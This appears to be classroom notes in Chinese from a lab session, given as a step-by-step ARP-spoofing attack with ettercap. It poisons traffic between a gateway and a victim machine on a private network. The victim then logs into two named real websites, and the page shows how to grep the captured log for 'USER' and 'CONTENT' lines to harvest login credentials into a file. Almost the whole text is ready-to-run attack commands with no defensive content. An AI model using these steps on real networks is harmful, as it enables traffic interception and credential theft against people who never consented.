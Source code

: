 #### **2.攻击命令**

```
ettercap -T -i eth0  -M arp:remote /192.168.70.1// /192.168.70.130// 

ettercap -Tq -l a.log -i eth0  -M arp:remote /192.168.70.1// /192.168.70.130// 

ettercap -Tq -i eth0  -M arp:remote /192.168.70.1// /192.168.70.130// >>b.txt
```

#### **3.靶机登录后台网站**

```
http://www.kangda.cn/#/user/login?redirect=http%3A%2F%2Fwww.kangda.cn%2F%23%2F
http://vmims.eguagua.cn/#/Login
```

#### **4.查看攻击界面日志**

```
tail -f b.txt

停止查看：
CTRL+C
```

#### **5.过滤无用信息，只查看用户的登录信息**

```
tail -f b.txt | grep "USER" 
或者
tail -f b.txt | grep "CONTENT" 
或者
tail -f b.txt | egrep "USER|CONTENT"
```

#### **6.停止ARP攻击**

```
CTRL+C
```

#### **7.分析日志**

```
cat b.txt
```

#### **8.筛选用户的登录信息**

```
cat b.txt | grep "USER" 
或者
cat b.txt | grep "CONTENT" 
或者
cat b.txt | egrep "USER|CONTENT"
```

#### 9.收集保存用户信息文件

```
cat -n  b.txt | egrep "USER|CONTENT" >arp.log
-n:添加行号
egrep：过滤规则
>:输出文件
```

## 五：课堂小结

请查看：ARP-Ettercap劫持用户流量.xmind

